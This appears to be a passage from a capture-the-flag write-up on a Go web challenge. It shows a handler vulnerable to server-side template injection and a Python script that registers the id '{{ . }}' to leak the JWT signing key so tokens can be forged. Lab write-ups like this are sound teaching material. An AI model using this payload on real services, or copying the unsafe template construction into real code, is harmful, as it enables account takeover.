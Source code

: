 Then I realized I missed an endpoint:
```go
func root_handler(w http.ResponseWriter, r *http.Request) {
	token := r.Header.Get("X-Token")
	if token != "" {
		id, _ := jwt_decode(token)
		acc := get_account(id)
		tpl, err := template.New("").Parse("Logged in as " + acc.id)
		if err != nil {
		}
		tpl.Execute(w, &acc)
	} else {

		return
	}
}
```
**It was vulnerable to SSTI!!** (Server Side Template Injection) https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#ssti-in-go

## Exploit

Follow the exploit in hacktricks, we need to register id as {% raw %}`{{ . }}`{% endraw %}

Then I changed my python script to this:
```py
import requests
import json
URL = "http://localhost:11000/"
data = {
	"id":"{% raw %}{{ . }}{% endraw %}",
	"pw":"test"
}
r = requests.post(URL+"regist",data=data)
print(r.text)

r = requests.post(URL+"auth",data=data)
token = json.loads(r.text)["token"]
print(token)

header = {
	"X-Token":token
}

r = requests.get(URL,headers=header)
print(r.status_code)
print(r.text)
# {"status":true,"msg":""}
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7IC4gfX0iLCJpc19hZG1pbiI6ZmFsc2V9.XN9HM05byusP_iDrf2T0gmgyu3oZu0qBwy0Z6JX2vUg
# 200
# Logged in as { {% raw %}{{ . }}{% endraw %} test false this_is_fake_key}
```
As you can see, we leaked the secret key!! Thats means we can change the token as we want!!
